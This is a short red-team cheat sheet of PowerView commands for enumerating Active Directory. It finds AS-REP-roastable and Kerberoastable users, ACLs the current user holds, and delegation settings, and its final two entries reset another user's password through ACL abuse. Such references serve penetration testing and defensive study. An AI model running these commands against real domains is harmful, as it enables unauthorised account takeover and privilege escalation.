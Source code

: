 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## User - Get ASREPRoastable users
```powershell
Get-NetUser -PreauthNotRequired
```


## User - Get Kerberoastable users
```powershell
Get-NetUser -SPN
```

## User - Find all groups our current user got access
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## User - Find all users our current user got access
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## User - Find user accounts that have kerberos constrained delegation 
```powershell
Get-NetUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
```


## User - Find user accounts that have kerberos unconstrained delegation 
```powershell
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```


## User - change user password (alternate cred)
#cat/ATTACK/DACL-ABUSE 
```
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
Set-DomainUserPassword -Identity <target_user> -AccountPassword (ConvertTo-SecureString '<new_password|P@ssw0rd123>' -AsPlainText -Force) -Credential $Cred -Domain <dst_domain_fqdn>
```

## User - change user password
#cat/ATTACK/DACL-ABUSE 
```
Set-DomainUserPassword -Identity <target_user> -AccountPassword (ConvertTo-SecureString '<new_password|P@ssw0rd123>' -AsPlainText -Force) -Domain <dst_domain_fqdn>
```